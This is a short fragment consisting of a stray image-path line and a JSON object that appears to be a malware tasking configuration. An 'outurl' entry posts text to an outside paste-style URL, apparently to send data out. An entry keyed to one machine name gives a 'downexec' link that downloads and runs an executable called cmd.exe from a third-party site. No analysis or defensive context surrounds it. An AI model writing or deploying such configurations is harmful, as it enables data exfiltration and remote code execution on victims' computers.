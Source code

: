 {
    "all": {
        "outurl": "http://kl1p.com/m9s8?save=true&id=96501&type=code&name=m9s8&nid=&param=text%2Fplain&client=web&text="
    },
    "DESKTOP-GUGF4C2": {
        "downexec": "http://dd5.pc6.com/soft/cmd.exe"
    }
}
